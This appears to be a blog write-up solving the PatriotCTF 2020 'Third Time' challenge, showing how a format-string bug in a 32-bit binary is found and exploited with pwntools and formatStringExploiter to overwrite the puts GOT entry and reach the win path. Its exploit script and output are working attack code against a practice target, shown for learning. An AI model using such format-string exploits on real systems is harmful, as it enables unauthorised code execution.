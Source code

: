 ```yaml
---
layout:     post
title:      PatriotCTF 2020 - Third Time
date:       2020-04-30
summary:    Solution to PatriotCTF 2020 challenge "Third Time"
categories: writeups
thumbnail:  PatriotCTF
tags:
 - patriotctf
 - 2020
 - writeup
 - reverse
 - exploit
 - formatStringExploiter
 - radare2
 - ghidra
---
```


This challenge was a fun little example of using another tool I wrote a while
back called [formatStringExploiter][formatStringExploiter]. It was also a
painful reminder that I wrote that tool while [pwntools][pwntools] was stuck on
python version 2 and haven't had a chance to update it to be version 3 friendly
yet...

The solution was pretty strait forward. Identify that there's a format string
vulnerability, identify what the "winning" path is, determine what index you
control for the format string, overwrite puts to go back to main, hit enter a
couple times.

# Triage

As usual, let's give it a run.

```raw
$ ./thirdtime
Enter my favorite bytes!
hello
I love these bytes: 
hello
You Lose Ha!
```

Any time you see a blatant echo back to you like this, it should cause you to
check if there was a format string at play. Generally sending a `%x` should be
enough to check.

```raw
$ ./thirdtime
Enter my favorite bytes!
%x
I love these bytes: 
80488fa
You Lose Ha!
```

In this case, we got back a hex value, and so we know that our input is being
evaluated. Since this is a exploitation type challenge, it is helpful to check
the binary protections enabled via [checksec][checksec].

```raw
$ checksec ./thirdtime
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Intel 32-bit is a bit easier to perform format string attacks against, due to
it's calling convention. Specifically, 32-bit passes arguments on the stack,
whereas 64-bit passes arguments in registers first. That's not to say this
challenge would be impossible on 64-bit, but it would be a bit more difficult
to pull off.

No relocation protection is good for us, since it means GOT overwrites are a
possibility. Also, no PIE is similarly good since it means we don't need an
information leak.

# Checking for Targets

So at this point, you should likely be thinking about what GOT entry should I
overwrite? The challenge description hints that we need to get this program to
run three times, which means a likely target would be going back to `main`.

Asking [ghidra][ghidra] for the decompile, let's look at main:

```c
printf("%s","Enter my favorite bytes!\n");
fflush(stdout);
fgets(local_114,0x100,stdin);
printf("%s","I love these bytes: \n");
printf(local_114);
```

So that's the behavior we're seeing visually. Next up:

```c
if (counter == 3) {
  uVar1 = get_exec_mem();
  puVar2 = (undefined4 *)(counter | uVar1);
  if (puVar2 == (undefined4 *)0x0) {
    puts("Failed to Alloc Memory. Challenge dying...");
    uVar3 = 1;
  }
  else {
    *puVar2 = WIN._0_4_;
    puVar2[1] = WIN._4_4_;
    puVar2[2] = WIN._8_4_;
    puVar2[3] = WIN._12_4_;
    puVar2[4] = WIN._16_4_;
    puVar2[5] = WIN._20_4_;
    puVar2[6] = WIN._24_4_;
    puVar2[7] = WIN._28_4_;
    puVar2[8] = WIN._32_4_;
    puVar2[9] = WIN._36_4_;
    puVar2[10] = WIN._40_4_;
    *(undefined2 *)(puVar2 + 0xb) = WIN._44_2_;
    *(undefined *)((int)puVar2 + 0x2e) = WIN[46];
    (*(code *)puVar2)();
    uVar3 = 0;
  }
}
```

That would appear to be the winning path. We need to get that counter up to 3.

```c
else {
  counter = counter + 1;
  lose();
  uVar3 = 0;
}
```

So after we initially lose (which we will), the only code we have to work with
increases the counter by one and calls `lose`. Let's take a look at that
function.

```c
void lose(void)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  puts((char *)(iVar1 + 0x1a0));
  return;
}
```

There's our target. What makes `puts` an especially good target? It's
effectively the only resolved symbol that gets called after our input and
before exiting.

Note, with an information leak, it would be possible to determine, for
instance, the GOT table for `_exit` itself which is in libc. In this case, we
don't have that, and we have an easier solution.

# Writing the Exploit

We have everything we need now. Let's go ahead and use
[formatStringExploiter][formatStringExploiter] to help us exploit this.

First up, we need to create a leak function that will take a format string and
return the results. This is where most of the differences between challenges
exist. In our case, we will need to spawn the process, send input, get output,
and close the process.

```python
from pwn import *
from formatStringExploiter.FormatString import FormatString

def exec_fmt(s):
    print(repr(s)) # So we can easier see what's going on
    global p
    p = process("thirdtime")
    p.recvuntil("bytes!\n")
    p.sendline(s)
    out = p.recvall()
    x = out.split("bytes: \n")[1].split("\nYou Lose")[0]
    p.close()
    return x
```

Giving it a run we see:

```python
exec_fmt("%x")
'%x'
[!] Could not find executable 'thirdtime' in $PATH, using './thirdtime' instead
[x] Starting local process './thirdtime'
[+] Starting local process './thirdtime': pid 1780
[x] Receiving all data
[x] Receiving all data: 0B
[*] Process './thirdtime' stopped with exit code 0 (pid 1780)
[x] Receiving all data: 42B
[+] Receiving all data: Done (42B)
Out[1]: '80488fa'
```

Looks good. Now let's instantiate the formatStringExploiter class and let it
explore:

```python
elf = ELF("thirdtime")
fmtStr = FormatString(exec_fmt,elf=elf)
# Bunch of output here
fmtStr.index
# 11
```

So there will be a bunch of output as it explores your format string to find
the right offsets and such. In this case, the offset of your input into the
format string is at index 11. We need this because we only get one shot, so we
need to tell the tool the correct index before we connect.

Believe it or not, we have everything ready to exploit now. Here's the script
with comments inline:

```python
from pwn import *
from formatStringExploiter.FormatString import FormatString

def exec_fmt(s):
    print(repr(s))
    global p
    #p = process("thirdtime")
    # Switching to attack the remote side
    p = remote("chal.pctf.competitivecyber.club", 3333)
    p.recvuntil("bytes!\n")
    p.sendline(s)

    # Going interactive since we won't actually return here
    p.interactive()
    
elf = ELF("thirdtime")
# Remember to give it the index and tell it not to explore
fmtStr = FormatString(exec_fmt,elf=elf, index=11, explore_stack=False)

# Overwriting puts with main
fmtStr.write_d(elf.symbols['got.puts'], elf.symbols['main'])

# Hit enter 3 times here
# pctf{iT_w0RKd_oN_my_CoMPtr}
```

Hope this helped show how the formatStringExploiter utility can be helpful.
Updating it to python 3 will be higher up on my list now that pwntools has
fully moved there.

# Downloads
- [thirdtime.zip](https://github.com/NoTeamName/CTF2020/raw/master/PatriotCTF/pwn/third_time/thirdtime.zip)

[angr]: http://angr.io/
[bash]: https://www.gnu.org/software/bash/
[checksec]: https://docs.pwntools.com/en/stable/commandline.html#pwn-checksec
[fork]: http://man7.org/linux/man-pages/man2/fork.2.html
[formatStringExploiter]: https://formatstringexploiter.readthedocs.io/en/latest/
[ghidra]: https://ghidra-sre.org/
[ltrace]: http://man7.org/linux/man-pages/man1/ltrace.1.html
[malloc]: http://man7.org/linux/man-pages/man3/malloc.3.html
[ptrace]: http://man7.org/linux/man-pages/man2/ptrace.2.html
[pwntools]: http://docs.pwntools.com/en/stable/
[radare2]: https://rada.re/n/
[revenge]: https://revenge.readthedocs.io/en/latest/
[strings]: http://man7.org/linux/man-pages/man1/strings.1.html
[xor cipher]: https://en.wikipedia.org/wiki/XOR_cipher
